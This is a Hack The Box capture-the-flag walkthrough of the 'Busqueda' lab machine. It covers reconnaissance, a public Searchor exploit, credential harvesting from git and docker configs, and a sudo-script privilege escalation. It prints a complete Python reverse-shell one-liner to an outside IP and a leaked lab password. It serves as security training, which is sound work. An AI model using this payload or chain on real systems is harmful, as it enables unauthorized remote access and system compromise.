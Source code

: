 # Busqueda
#### Busqueda Hack The box 
Hello Hackers, I'm [0xDigimon](https://www.linkedin.com/in/abdelmawla-elamrosy/)
I started nmap scanner (i didn't use any arg to make scan faster) <br> ``` namp -Pn 10.10.11.208 ```<br> 
output.<br>
<img src="https://github.com/0xDigimon/CyLert-Internship/blob/main/HTB-Machines/Busqueda/media/01.png?raw=true"><br>
now discover website <br> <img src="https://github.com/0xDigimon/CyLert-Internship/blob/main/HTB-Machines/Busqueda/media/02.png?raw=true"><br>
i started burp to intercept the request<br> <img src="https://github.com/0xDigimon/CyLert-Internship/blob/main/HTB-Machines/Busqueda/media/03.png?raw=true"><br>
Fuzzing website using dirsearch <br> ```dirsearch -u "http://searcher.htb/" ``` <br> <img src="https://github.com/0xDigimon/CyLert-Internship/blob/main/HTB-Machines/Busqueda/media/04.png?raw=true"><br>
also i tryed searching about <strong>sqli</strong> in input lables <br> ```sqlmap -r req.txt -p <pram,pram> --dbs```<br>  <img src="https://github.com/0xDigimon/CyLert-Internship/blob/main/HTB-Machines/Busqueda/media/05.png?raw=true"><br>
but I didn't got anything ):<br>
wait... what is this in the bottom i smell vulnerability here<br> <img src="https://github.com/0xDigimon/CyLert-Internship/blob/main/HTB-Machines/Busqueda/media/06.png?raw=true"><br>
i search on ```searchor 2.4 exploit``` and i found POC for this vulnerability <br><img src="https://github.com/0xDigimon/CyLert-Internship/blob/main/HTB-Machines/Busqueda/media/07.png?raw=true"><br>
now i gained access on this machine <br> <img src="https://github.com/0xDigimon/CyLert-Internship/blob/main/HTB-Machines/Busqueda/media/08.png?raw=true"><br>
<strong>BOOOOOM</strong> i got user flag <img src="https://github.com/0xDigimon/CyLert-Internship/blob/main/HTB-Machines/Busqueda/media/09.png?raw=true"><br>
now i want to escalate my privillege <br>
discover all files in ```/var/www``` i found .git file ```git log``` <br>i got some info as <strong>administrator</strong> and new subdomain <strong>gitea.searcher.htb</strong><br><img src="https://github.com/0xDigimon/CyLert-Internship/blob/main/HTB-Machines/Busqueda/media/10.png?raw=true"><br> 
```git config -l ``` <br>i got credential to login <br><img src="https://github.com/0xDigimon/CyLert-Internship/blob/main/HTB-Machines/Busqueda/media/11.png?raw=true"><br><img src="https://github.com/0xDigimon/CyLert-Internship/blob/main/HTB-Machines/Busqueda/media/12.png?raw=true"><br>
i didn't got on any important info. so i try connect using ssh on cody and svc and administrator i gained access again from svc user but now i have password.<br><img src="https://github.com/0xDigimon/CyLert-Internship/blob/main/HTB-Machines/Busqueda/media/13.png?raw=true"><br>so i did some enumerations to do privilege escalation like ```sudo -l ``` i got on script called ```system-checkup.py```and after run it i found some important command and by using this script i found two containners <br> <img src="https://github.com/0xDigimon/CyLert-Internship/blob/main/HTB-Machines/Busqueda/media/14.png?raw=true"><br>
after some search about docker-inspector i got some important command in this [website](https://docs.docker.com/config/formatting/)<br>
and used Hint section to show all content in these containers as a json file ```--format='{{json .}}'``` after this i used [json pretty print](https://jsonformatter.org/json-pretty-print) <br><img src="https://github.com/0xDigimon/CyLert-Internship/blob/main/HTB-Machines/Busqueda/media/15.png?raw=true"><br><img src="https://github.com/0xDigimon/CyLert-Internship/blob/main/HTB-Machines/Busqueda/media/16.png?raw=true"><br><img src="https://github.com/0xDigimon/CyLert-Internship/blob/main/HTB-Machines/Busqueda/media/17.png?raw=true"><br><img src="https://github.com/0xDigimon/CyLert-Internship/blob/main/HTB-Machines/Busqueda/media/18.png?raw=true"><br>do you notice any thing!, yes i got passwords in database <br>
so i trying to gain access on database using mysql<br>```mysql -h gitea.searcher.htb -u root -p```<br><img src="https://github.com/0xDigimon/CyLert-Internship/blob/main/HTB-Machines/Busqueda/media/19.png?raw=true"><br>
but i failed ): so i went to website and tried usernames and passwords.<br><img src="https://github.com/0xDigimon/CyLert-Internship/blob/main/HTB-Machines/Busqueda/media/20.png?raw=true"><br><img src="https://github.com/0xDigimon/CyLert-Internship/blob/main/HTB-Machines/Busqueda/media/21.png?raw=true"><br>
and i used administrator and yuiu1hoiu4i5ho1uh <br>
now i have access to show codes <br>
in system-checkup.py script i fount that i can run full-checkup script if we are in the same directory,<br><img src="https://github.com/0xDigimon/CyLert-Internship/blob/main/HTB-Machines/Busqueda/media/22.png?raw=true"><br> so i create bash reverse shell but it not working so i tried to create python reverse shell in bash file using [this repo](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)<br>```import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")```<br>
and make it executable file ```chmod +x full-checkup.sh```and start listener and run ```system-checkup.py full-checkup``` <br><strong>BOOOOOOOM (: </strong> i have a <strong>root</strong> shell <br><img src="https://github.com/0xDigimon/CyLert-Internship/blob/main/HTB-Machines/Busqueda/media/23.png?raw=true"><br>
<hr>

#### thanks for reading 
